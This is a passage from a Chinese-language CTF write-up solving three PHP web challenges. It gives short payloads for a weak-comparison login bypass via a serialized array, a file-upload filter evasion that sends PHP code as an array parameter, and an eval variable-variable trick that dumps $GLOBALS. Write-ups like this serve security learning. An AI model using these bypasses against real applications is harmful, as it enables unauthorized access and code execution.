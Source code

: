 ```php
    }
?>
```
将输入的密码反序列化，从条件看出，反序列化后需要是数组，键名name的键值要为一个未知的字符串，键名pwd的键值也要为未知的字符串，0和字符串双等弱比较会返回true还是考察弱比较，构造password：
```php
<?php
$a = array('name'=>0,'pwd'=>0);
echo serialize($a);
?>
```
> **a:2:{s:4:"name";i:0;s:3:"pwd";i:0;}**

登陆即可得到flag
# 0x07 文件上传
这道题有bug，填写文件后缀处居然存在xss，出题人太不小心了，一开始还以为是考xss，浪费了不少时间，上传文件内容处过滤了<，导致上传的php文件无法正常解析，这里post数组就可以绕过了检查了，payload：
```
ext=php&content[]=<?php phpinfo();?>
```
![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/fileupload.png?raw=true)
# 0x08 php代码审计
get传入args，值必须为字母数字，然后传入eval的居然是个双$，直接传入GLOBALS，带入eval中的就变成了$GLOBALS，就可以将所有已定义的变量var_dump出来了，payload：
> index.php?args=GLOBALS
